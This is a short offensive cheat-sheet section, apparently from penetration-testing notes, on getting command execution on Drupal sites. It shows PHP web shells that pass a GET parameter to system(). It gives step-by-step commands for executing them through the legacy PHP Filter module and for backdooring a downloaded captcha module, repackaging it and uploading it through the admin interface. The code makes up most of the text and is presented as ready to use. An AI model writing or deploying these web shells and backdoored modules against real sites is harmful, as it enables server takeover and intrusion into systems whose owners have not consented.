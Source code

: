 ### Drupal Exploitation

#### PHP Filter Module (Legacy)
```bash
# Drupal 7 and earlier - Enable PHP Filter module
# Navigate to: admin/modules
# Enable "PHP filter" module
# Create content with PHP code execution

# Create malicious page with PHP code:
```

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

```bash
# Set text format to "PHP code"
# Access via: /node/[NODE_ID]?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

#### Module Upload Backdoor
```bash
# Step 1: Download legitimate module
wget https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz

# Step 2: Create web shell
cat > shell.php << 'EOF'
<?php
system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']);
?>
EOF

# Step 3: Create .htaccess for access
cat > .htaccess << 'EOF'
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
EOF

# Step 4: Package malicious module
mv shell.php .htaccess captcha/
tar czf captcha.tar.gz captcha/

# Step 5: Upload via admin interface
# Navigate to: admin/modules/install
# Upload backdoored module
# Access shell: /modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
